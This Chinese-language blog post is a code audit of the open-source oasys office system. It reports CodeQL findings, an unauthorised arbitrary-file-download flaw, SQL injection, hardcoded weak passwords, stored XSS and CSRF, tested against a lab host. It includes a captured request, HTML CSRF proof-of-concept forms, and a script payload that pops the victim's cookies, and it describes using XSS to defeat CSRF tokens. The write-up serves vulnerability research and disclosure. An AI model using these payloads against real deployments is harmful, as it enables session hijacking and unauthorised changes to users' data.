 ```yaml
---
title: 某OA系统代码审计
tags:
  - Java安全
  - 代码安全
  - 代码审计
categories: 代码安全
date: 2022-03-10 16:28:05
---
```



主要框架是SpringBoot+Mybatis的[项目](https://github.com/misstt123/oasys)，使用手工+CodeQL进行0day挖掘

<!-- more -->



## 1. 环境构建

本地

```
git clone https://github.com/misstt123/oasys
```

将sql脚本和资源文件复制到linux

```
[shadowflow@ShadowOS oasys]$ scp oasys.sql vuln:/tmp

[shadowflow@ShadowOS oasys]$ scp -r static vuln:/root/vuln/
```

启动mysql容器，关于容器配置不再赘述，参考[文章](https://shadowfl0w.github.io/%E6%9F%90RBAC%E7%B3%BB%E7%BB%9F%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/)

```
[root@vuln ~]# docker start my-mysql
```

将sql脚本复制到容器

```
[root@vuln ~]# docker cp /tmp/oasys.sql my-mysql:/root/
```

进入容器中的mysql

```
[root@vuln ~]# docker exec -it my-mysql bash

root@ebc3aac24bca:/# mysql -u root -p
Enter password:
```

创建数据库，加载脚本

```
mysql> create database oasys;
Query OK, 1 row affected (0.00 sec)

mysql> use oasys;
Database changed

mysql> source /root/oasys.sql
```

由于项目默认mysql是5版本，我们部署的mysql容器是8版本以上，所以需要稍加修改

添加maven配置

```
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>8.0.15</version>
</dependency>
```

springboot配置文件修改

```
#修改驱动
spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver
#修改账号密码
spring.datasource.username=root
spring.datasource.password=123456
```

修改资源文件路径

```
file.root.path=/root/vuln/static/file
img.rootpath=/root/vuln/static/images
attachment.roopath=/root/vuln/static/attachment
```

idea远程部署直接运行就好了。



## 2. CodeQL分析

CodeQL的扫描不再赘述，扫描结果发现6类安全问题，逐一分析

**java/untrusted-data-to-external-api**

扫描到api接口暴露，并且未做权限验证，我们看一下

看一下查询代码

```
import java
import semmle.code.java.dataflow.FlowSources
import semmle.code.java.dataflow.TaintTracking
import semmle.code.java.security.ExternalAPIs
import DataFlow::PathGraph

from UntrustedDataToExternalAPIConfig config, DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select sink, source, sink,
  "Call to " + sink.getNode().(ExternalAPIDataNode).getMethodDescription() +
    " with untrusted data from $@.", source, source.toString()
```

UntrustedDataToExternalAPIConfig是标准库里的一个类，表示传递给外部API的数据的节点。

如下图看第一个结果是没有安全风险的，只是将外部数据给打印出来。

![](../images/pics/代码审计/31.jpg)

这个查询代码我们可以发现越权问题，比如我们找一些未做权限校验的敏感信息访问页面或者高危操作。比如文件下载未做权限校验，可以下载任意用户的文件

```
		 * @param fileid
		 */
		@RequestMapping("file")
		public void downFile(HttpServletResponse response, @RequestParam("fileid") Long fileid) {
			try {
				Attachment attd = AttDao.findOne(fileid);
				File file = new File(rootpath,attd.getAttachmentPath());
				response.setContentLength(attd.getAttachmentSize().intValue());
				response.setContentType(attd.getAttachmentType());
				response.setHeader("Content-Disposition","attachment;filename=" + new String(attd.getAttachmentName().getBytes("UTF-8"), "ISO8859-1"));
				proservice.writefile(response, file);
			} catch (Exception e) {
				e.printStackTrace();
			}
		}
```



**java/count-untrusted-data-external-api**

统计API

**java/mybatis-xml-sql-injection**

是Mybatis的sql注入检查，sql注入有很多，具体利用参考[上篇文章](https://shadowfl0w.github.io/%E6%9F%90RBAC%E7%B3%BB%E7%BB%9F%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/)

**java/log-injection**

日志的污点传播，不过多分析，当然在传播过程也可能出现危险操作风险

**java/hardcoded-credential-sensitive-call**

硬编码安全问题，两个弱口令

![](../images/pics/代码审计/32.jpg) 







## 3. XSS

xss随处可见

![](../images/pics/代码审计/25.jpg)





## 4. CSRF

测试一下写便签的csrf，抓到如下包

```
POST /writep HTTP/1.1
Host: 172.16.42.151
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://172.16.42.151
Connection: close
Referer: http://172.16.42.151/userpanel
Cookie: csrftoken=i1qmoC5LpcStYF7s0pd0T8i4IytR6EmmRbiJplVsydqhWb7h8Ru5xl879WPPU7Xr; io=1ZhdDaE0vYHbIFLrAAAM; JSESSIONID=6F29C07D974E6F59C5CD22B7630FC55B; remember-me=YWRtaW46MTY0ODAyNDQxNDMzOTo1YzY4ZDIyOGUxY2ZjMDIzZmQ5YWVkOTYyOGZlNGUwYQ
Upgrade-Insecure-Requests: 1

notepaperId=&title=bb&concent=bb
```

修改`title`和`concent`参数，看是否可以完成csrf。

用burp生成poc

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://172.16.42.151/writep" method="POST">
      <input type="hidden" name="notepaperId" value="" />
      <input type="hidden" name="title" value="ccc" />
      <input type="hidden" name="concent" value="ccc" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

使用同一个浏览器，发现成功写入。



## 5. XSS + CSRF

上诉CSRF漏洞也存在XSS漏洞，但是这是POST型XSS，很难利用，如果结合CSRF，我们不仅能进行插入标签，还能盗取cookie等其他js脚本可以劫持的操作。

我们将poc改成获取弹出cookie

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://172.16.42.151/writep" method="POST">
      <input type="hidden" name="notepaperId" value="" />
      <input type="hidden" name="title" value="ddf" />
      <input type="hidden" name="concent" value="<script>alert(document.cookie)</script>" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

现在我们达到了只要诱骗受害者点击链接就可以插入存储xss payload，而不需要自己登录去插入payload

![](../images/pics/代码审计/26.jpg)

除了这种方式，如果存在xss，我们可以通过xss绕过csrf漏洞防护，因为csrf防护一般都是refere或者token，存在xss就可以使用js脚本来调用修改refere或者token，从而进行csrf攻击。

